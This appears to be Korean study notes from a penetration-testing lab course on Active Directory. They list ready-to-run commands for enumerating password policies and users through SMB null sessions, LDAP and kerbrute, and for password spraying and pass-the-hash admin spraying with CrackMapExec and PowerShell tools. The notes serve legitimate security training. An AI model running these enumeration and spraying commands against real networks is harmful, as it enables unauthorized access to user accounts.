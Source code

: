```
```ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength```

### 비밀번호 정책 열거 - SMB NULL Sessions (Windows)
```net use \\DC01\ipc$ "" /u:""```              # null session 연결 확인<br/>
```net use \\DC01\ipc$ "" /u:guest```           # Account 비활성화 확인<br/>
```net use \\DC01\ipc$ "password" /u:guest```   # Password 비일치 또는 계정 잠김 확인

### 비밀번호 정책 열거 (Windows)
내장 명령 : ```net accounts```
```
import-module .\PowerView.ps1
Get-DomainPolicy
```

### SMB NULL Sessions으로 사용자 목록 가져오기
```enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"```
```
rpcclient -U "" -N 172.16.5.5
rpcclient $> enumdomusers
```
```crackmapexec smb 172.16.5.5 --users```

### LDAP Anonymous를 사용하여 사용자 수집
```ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "```<br/>
```./windapsearch.py --dc-ip 172.16.5.5 -u "" -U```<br/>
```crackmapexec ldap 172.16.5.5 -u "" -p "" --users```

### Kerbrute를 사용하여 사용자 열거
```kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt```

### 유효한 자격 증명을 사용하여 사용자 열거
```sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users```

<br/><br/>
## 5. Internal Password Spraying - from Linux

### Bash를 이용한 one-liner Attack (rpcclient 사용)
```for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done```

### Kerbrute 사용
```kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1```

### CrackMapExec 사용
```sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +```

### CrackMapExec를 사용하여 자격증명 검증
```sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123```

### CrackMapExec를 사용한 Local Admin Spraying
```sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +```

<br/><br/>
## 6. Internal Password Spraying - from Windows

### DomainPasswordSpray.ps1 사용
```
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

<br/><br/>
## 7. 보안 설정 Enumerating

### Windows Defender 상태 체크
```Get-MpComputerStatus``` : RealTimeProtectionEnabled 값 체크

### AppLocker 체크
```Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections```
```